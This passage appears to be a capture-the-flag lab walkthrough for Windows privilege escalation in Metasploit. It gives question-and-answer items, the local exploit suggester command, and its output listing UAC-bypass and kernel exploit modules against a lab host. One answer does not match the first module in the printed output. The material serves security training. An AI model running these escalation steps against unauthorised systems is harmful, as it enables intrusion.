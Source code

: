 Ans> 
7601

### Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?

x64

### Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

```
 run post/multi/recon/local_exploit_suggester 

[*] 10.10.8.156 - Collecting local exploits for x86/windows...
[*] 10.10.8.156 - 198 exploit checks are being tried...
[+] 10.10.8.156 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.8.156 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.8.156 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 10.10.8.156 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42


```

Ans> click

### Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?


Ans> exploit/windows/local/bypassuac_eventvwr
